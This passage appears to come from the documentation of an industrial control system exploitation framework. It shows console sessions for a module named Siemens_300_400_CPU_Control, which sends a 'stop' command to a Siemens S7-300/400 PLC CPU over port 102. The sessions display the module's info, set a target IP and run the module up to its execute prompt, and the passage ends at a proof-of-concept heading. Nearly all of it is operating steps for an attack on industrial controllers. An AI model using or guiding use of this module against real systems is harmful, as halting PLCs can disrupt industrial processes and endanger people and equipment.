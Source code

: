 
## info

Display information about exploit:

    isf Exploit (Siemens_300_400_CPU_Control) > info

    Information
    ===========

        Name: Siemens_300_400_CPU_Control
     Version: 1.1.0
      Author: w3h
        Type: Exploit


    Parameters
    ==========

      Name            Value      Description
      ----            -----      -----------
      TargetIp                   Target IP Address
      TargetPort      102        Target Port
      Slot            3          The number of slot
      Command         stop       The control command of cpu



## set 


    isf Exploit (Siemens_300_400_CPU_Control) > set TargetIp 127.0.0.1
    [+] Set TargetIp => 127.0.0.1

## run/execute

Execute the module:

    isf Exploit (Siemens_300_400_CPU_Control) > run

    [!] Preparing to Execute Siemens_300_400_CPU_Control

    Module: Siemens_300_400_CPU_Control
    ===================================

      Name            Value
      ----            -----
      TargetIp        127.0.0.1
      TargetPort      102
      Slot            3
      Command         stop

    [?] Execute Plugin? [Yes] :


# 五、POC
